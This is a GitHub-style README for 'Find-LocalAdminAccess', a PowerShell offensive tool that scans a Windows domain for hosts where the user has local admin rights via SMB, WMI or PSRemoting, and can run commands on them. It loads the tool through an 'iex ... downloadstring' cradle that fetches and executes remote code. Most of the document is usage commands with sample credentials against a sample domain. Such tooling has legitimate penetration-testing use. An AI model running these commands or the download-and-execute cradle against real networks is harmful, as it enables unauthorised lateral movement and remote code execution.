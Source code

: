 # Find-LocalAdminAccess
Check the Domain for local Admin Access via SMB, WMI, or PSRemoting.

## Light Version

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Find-LocalAdminAccess/main/Find-LocalAdminAccess_Light.ps1')
```
```
Find-LocalAdminAccess
```
```
Find-LocalAdminAccess -Local -Username "Administrator" -Password "P@ssw0rd!"
```
```
Find-LocalAdminAccess -Username "Administrator" -Password "P@ssw0rd!" -UserDomain ferrari.local
```
```
Find-LocalAdminAccess -Domain ferrari.local -DomainController DC01.ferrari.local -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/73705a97-5f67-446f-982d-f779421fc97b)


## Full Version

Run as Current User, or provide credentials (WMI and PSRemoting only)

Optionally, provide a command to run on targets where you have Admin access

### Load script:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Find-LocalAdminAccess/main/Find-LocalAdminAccess.ps1')
```

### Usage (SMB):
```
Find-LocalAdminAccess -Method SMB
```
```
Find-LocalAdminAccess -Method SMB -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method SMB -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
```
Find-LocalAdminAccess -Method SMB -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method SMB -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method SMB -Targets "Workstation01.ferrari.local,DC01.ferrari.local" -Command "whoami /all"
```

### Usage (WMI):
```
Find-LocalAdminAccess -Method WMI
```
```
Find-LocalAdminAccess -Method WMI -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method WMI -Targets "Workstation01.ferrari.local,DC01.ferrari.local"
```
```
Find-LocalAdminAccess -Method WMI -UserName "ferrari\Administrator" -Password "P@ssw0rd!"
```
```
Find-LocalAdminAccess -Method WMI -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method WMI -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method WMI -Targets "Workstation01.ferrari.local,DC01.ferrari.local" -UserName "ferrari\Administrator" -Password "P@ssw0rd!" -Command "whoami /all"
```

### Usage (PSRemoting):
```
Find-LocalAdminAccess -Method PSRemoting
```
```
Find-LocalAdminAccess -Method PSRemoting -Domain ferrari.local -DomainController DC01.ferrari.local
```
```
Find-LocalAdminAccess -Method PSRemoting -Targets c:\Users\Public\Documents\Targets.txt
```
```
Find-LocalAdminAccess -Method PSRemoting -UserName "ferrari\Administrator" -Password "P@ssw0rd!"
```
```
Find-LocalAdminAccess -Method PSRemoting -Command "whoami /all" # Will run a command on targets where we are admin
```
```
Find-LocalAdminAccess -Method PSRemoting -Command "whoami /all" -NoOutput # Will run a command on targets where we are admin and won't wait for output
```
```
Find-LocalAdminAccess -Method PSRemoting -Targets c:\Users\Public\Documents\Targets.txt -UserName "ferrari\Administrator" -Password "P@ssw0rd!" -Command "whoami /all"
```

![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/16e6e0f7-2d44-4ebf-985a-ad2b38d43e48)


![image](https://github.com/Leo4j/Find-LocalAdminAccess/assets/61951374/01b5076b-8615-4b16-8b6d-79f19010682d)
